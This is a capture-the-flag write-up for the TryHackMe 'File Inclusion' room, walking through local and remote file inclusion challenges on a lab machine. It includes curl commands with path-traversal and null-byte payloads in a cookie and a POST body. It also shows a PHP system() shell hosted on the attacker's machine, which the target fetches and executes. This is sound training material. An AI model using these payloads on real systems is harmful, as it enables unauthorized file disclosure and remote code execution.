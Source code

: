 #+TITLE: File Inclusion (TryHackMe)
#+AUTHOR: Bryan Rinders
#+DATE: <2023-01-28 Sat>
#+OPTIONS: num:nil
#+PROPERTY: header-args:sh :eval never-export

* Intro
{{{date([%Y-%m-%d])}}} This is a write up for the Challenges part of
the TryHackMe room [[https://tryhackme.com/room/fileinc][File Inclusion]].

* Challenges
** Flag 1
On the right hand side of Firefox open the =menu > Web Developer >
Inspector=. In the html source code find the form tag and change the
method from =GET= to =POST=. Then on the actual web page fill =/etc/flag1= in
in the form and press the include button. This should reveal the flag.

** Flag 2
From the hint it is clear that we have to edit the cookie to find the
flag. To inspect the cookie run:

#+begin_src sh
curl -v http://10.10.124.167/challenges/chall2.php
#+end_src

and find the cookie among the header of the output. It has the value
=Cookie: THM=Guest=. The obvious thing is to try and change the value
=Admin=:

#+begin_src sh
  curl -H 'Cookie: THM=Admin' http://10.10.124.167/challenges/chall2.php -o flag2.txt
#+end_src

which reveals the admin page. Since there is not input form on this
page and it is a LFI room the next thing to try is to change the value
of the cookie to the file path to the flag. After a few tries the
correct value was found:

#+begin_src sh
  curl -H 'Cookie: THM=../../../../etc/flag2%00' http://10.10.124.167/challenges/chall2.php -o flag2.txt
#+end_src

Locate the flag at the end of the file =flag2.txt=.

** Flag 3
The url input is filtered, everything that is not a-z is filtered
out. To get around this change the method from get to =GET= to =POST=
and set the data to be posted to =/etc/flag3%00=. The =%00= is
necessary to prevent the =.php= from being added at the end as
explained previously in the room.

#+begin_src sh
  curl -v http://ip/challenges/chall3.php -X  POST -d 'file=/etc/flag3%00' -o flag3.txt
#+end_src

Locate the flag at the end of the file =flag3.txt=.

** Playground
Since this is a RFI exercise we first need to create a =.php= file
that will execute the command we want, =hostname=.

#+begin_src sh
  echo "<?PHP echo system('hostname') ?>" > rfi.php
#+end_src

Next we need a simple server that will host our file. The simplest way
to do this is with python.

#+begin_src sh
  python -m http.server &
#+end_src

And finally add the file as a parameter in the url to get the hostname:

#+begin_src sh
  curl http://10.10.124.167/playground.php?file=http://10.10.95.70:8000/rfi.php
#+end_src

Note: the IP of the remote file is the IP of the attackbox and for the
port number see the output of the python command. The port number
defaults to 8000 but can be different.
